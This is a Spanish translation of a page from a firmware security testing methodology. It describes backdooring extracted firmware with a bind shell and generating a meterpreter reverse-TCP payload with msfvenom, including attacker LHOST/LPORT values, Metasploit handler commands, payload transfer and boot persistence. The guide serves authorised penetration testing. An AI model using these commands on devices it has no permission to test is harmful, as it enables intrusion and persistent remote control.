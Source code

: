 ### Esta página fue copiada de [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

Intenta **subir firmware personalizado y/o binarios compilados** para encontrar fallas de integridad o verificación de firma. Por ejemplo, compila un backdoor bind shell que se inicie al arrancar siguiendo los siguientes pasos.

1. Extrae el firmware con firmware-mod-kit (FMK)
2. Identifica la arquitectura y el endianness del firmware objetivo
3. Construye un compilador cruzado con Buildroot o usa otros métodos que se adapten a tu entorno
4. Usa el compilador cruzado para construir el backdoor
5. Copia el backdoor a /usr/bin del firmware extraído
6. Copia el binario QEMU apropiado al rootfs del firmware extraído
7. Emula el backdoor usando chroot y QEMU
8. Conéctate al backdoor a través de netcat
9. Elimina el binario QEMU del rootfs del firmware extraído
10. Empaqueta el firmware modificado con FMK
11. Prueba el firmware con backdoor emulado con firmware analysis toolkit (FAT) y conectándote a la dirección IP y puerto del backdoor objetivo usando netcat

Si ya se ha obtenido una shell de root a través de análisis dinámico, manipulación del bootloader o medios de prueba de seguridad de hardware, intenta ejecutar binarios maliciosos precompilados como implantes o reverse shells. Considera el uso de herramientas de carga útil/implante automatizadas utilizadas para frameworks de comando y control (C\&C). Por ejemplo, el framework Metasploit y 'msfvenom' se pueden aprovechar siguiendo los siguientes pasos.

1. Identifica la arquitectura y el endianness del firmware objetivo
2. Usa `msfvenom` para especificar la carga útil de destino adecuada (-p), la dirección IP del host del atacante (LHOST=), el número de puerto de escucha (LPORT=), el tipo de archivo (-f), la arquitectura (--arch), la plataforma (--platform linux o windows) y el archivo de salida (-o). Por ejemplo, `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. Transfiere la carga útil al dispositivo comprometido (por ejemplo, ejecuta un servidor web local y usa wget/curl para transferir la carga útil al sistema de archivos) y asegúrate de que tenga permisos de ejecución
4. Prepara Metasploit para manejar solicitudes entrantes. Por ejemplo, inicia Metasploit con msfconsole y usa la siguiente configuración de acuerdo con la carga útil anterior: use exploit/multi/handler,
   * `set payload linux/armle/meterpreter_reverse_tcp`
   * `set LHOST 192.168.1.245 #dirección IP del host del atacante`
   * `set LPORT 445 #puede ser cualquier puerto no utilizado`
   * `set ExitOnSession false`
   * `exploit -j -z`
5. Ejecuta el reverse shell meterpreter en el dispositivo comprometido
6. Observa las sesiones de meterpreter abiertas
7. Realiza actividades de post-explotación

Si es posible, identifica una vulnerabilidad dentro de los scripts de inicio para obtener acceso persistente a un dispositivo a través de reinicios. Estas vulnerabilidades surgen cuando los scripts de inicio hacen referencia, [crean enlaces simbólicos](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data) o dependen de código ubicado en ubicaciones montadas no confiables como tarjetas SD y volúmenes flash utilizados para almacenar datos fuera de los sistemas de archivos raíz.
